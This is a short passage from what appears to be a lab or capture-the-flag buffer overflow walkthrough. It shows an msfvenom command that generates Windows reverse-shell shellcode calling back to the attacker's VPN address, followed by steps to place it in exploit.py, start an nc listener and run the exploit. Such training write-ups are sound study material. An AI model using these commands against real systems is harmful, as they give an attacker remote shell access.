 - We just need to change the IP address from my local to my tun0 address - and generate new shellcode:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.24.66 LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c

```
- Copy the newly generated shellcode into the payload variable in exploit.py


![image37](../resources/3f84341f29024c6a87acaa3392e596dd.png)

- Change the ip variable in exploit.py


![image38](../resources/8201b19f96564ef3b0e14733635bb572.png)

- Set up nc listener:

```bash
nc -lnvp 4444

```
- Run exploit.pywhoami
